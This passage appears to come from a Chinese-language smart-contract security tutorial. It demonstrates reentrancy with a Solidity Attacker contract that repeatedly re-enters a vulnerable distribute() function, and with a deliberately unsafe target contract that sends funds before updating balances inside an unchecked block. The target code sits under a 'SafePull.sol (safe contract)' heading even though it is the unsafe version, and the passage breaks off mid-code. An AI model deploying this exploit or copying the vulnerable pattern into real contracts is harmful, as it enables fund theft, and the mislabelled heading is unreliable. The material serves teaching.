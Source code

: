 这样，遇到下溢时 `balances[user]` 会绕回到一个非常大的数（2^256-1 之类），不会再报错。

**⚠️ 注意**

* 这不是“安全的”写法，而是为了**演示漏洞**。
* 在教学中，这样做可以让重入攻击顺利进行，观察到 `attacker` 窃取资金，而不会因为 panic 被中断。
* 如果你是在写真实合约，绝对不要这么做。


### 攻击合约：Attacker.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "./UnsafePush.sol";

contract Attacker {
    UnsafePush public target;
    uint256 public reentryCount;

    event Deposit(address indexed attacker, uint256 amount);

    constructor(address _target) {
        target = UnsafePush(_target);
    }

    function attack() external payable {
        target.deposit{value: msg.value}();
        emit Deposit(address(this), msg.value); // ✅ 改为打印合约自身
        target.distribute(payable(address(this)), msg.value);
    }

    receive() external payable {
        reentryCount++;
        uint256 targetBalance = address(target).balance;
        if (reentryCount < 3 && targetBalance > 0 ether) {
            target.distribute(payable(address(this)), msg.value);
        }
    }
}
```

### 安全合约：SafePull.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract UnsafePush {
    mapping(address => uint256) public balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function getBalance(address user) external view returns (uint256) {
        return balances[user];
    }

    function distribute(address payable user, uint256 amount) external {
        require(balances[user] >= amount, "Not enough balance");
        // ❌ 先转账，后修改状态，容易被重入
        (bool success, ) = user.call{value: amount}("");
        require(success, "Transfer failed");
        unchecked {
```